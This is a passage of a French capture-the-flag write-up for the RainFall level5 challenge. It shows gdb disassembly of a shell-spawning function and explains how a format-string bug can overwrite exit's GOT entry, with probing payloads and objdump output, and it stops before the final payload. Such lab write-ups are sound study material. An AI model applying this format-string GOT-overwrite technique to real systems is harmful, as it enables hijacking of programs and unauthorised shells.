   * Les différences comparé au level3 sont que l'on ne check pas une globale dans cette premiere fonction.
  * On ne call pas o. Regardons o...

  ```shell
  gdb-peda$ pdisas p
    Dump of assembler code for function o:
    # Initialisation et allocation de 24 octets
    0x080484a4 <+0>:	push   ebp
    0x080484a5 <+1>:	mov    ebp,esp
    0x080484a7 <+3>:	sub    esp,0x18

    # Call system("/bin/sh")
    0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0  # On push "/bin/sh" sur la stack
    0x080484b1 <+13>:	call   0x80483b0 <system@plt>     # On call system

    # Call exit(1)
    0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1        # On push 1 sur la stack
    0x080484bd <+25>:	call   0x8048390 <_exit@plt>      # On exit
    End of assembler dump.
  ```

  * On voit que o nous pop un shell, dommage on ne le call nulle part et on ne peut pas réécrire sur l'EIP puisque toutes les fonctions call exit

## 2: Comportement
> Une fois recomposé, on comprend que le main call juste n.\
> n, quand à elle, print et exit mais n'appelle pas...\
> ...o, qui nous pop un shell.\

## 3: Exploit

### A: Explication

> On va grâce au printf non protégé, non pas réécrire sur une globale ou un EIP mais on va réécrire dans la Global Offset Table (GOT).\
> La GOT est une table de référence sur les fonctions des librairies utilisées dans le code.\
> On va donc réécrire la référence de exit pour pointer sur o à la place.
> Donc même exploit, mais pas la même zone pour réécrire

### B: Creation de l'exploit

* Il nous faut donc: l'adresse de o, à partir de combien de parametres on va lire le debut de notre string, et l'addresse de la référence de exit dans la GOT

```shell
  # Addresse de m (vu pendant l'analyse)
  gdb-peda$ info function o
    [...]
    0x080484a4  o
    [...]

  # On teste au bout de combien de paramètres on retombe sur nos AAAA
  level4@RainFall:/tmp$ python -c 'print "AAAA " + "%x " * 10' | ~/level5
    AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078
  # Pouf! 4ème argument

  # On cherche l'addresse de exit
  level5@RainFall:/tmp$ objdump -R ~/level5
    /home/user/level5/level5:     file format elf32-i386
    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE
    08049814 R_386_GLOB_DAT    __gmon_start__
    08049848 R_386_COPY        stdin
    08049824 R_386_JUMP_SLOT   printf
```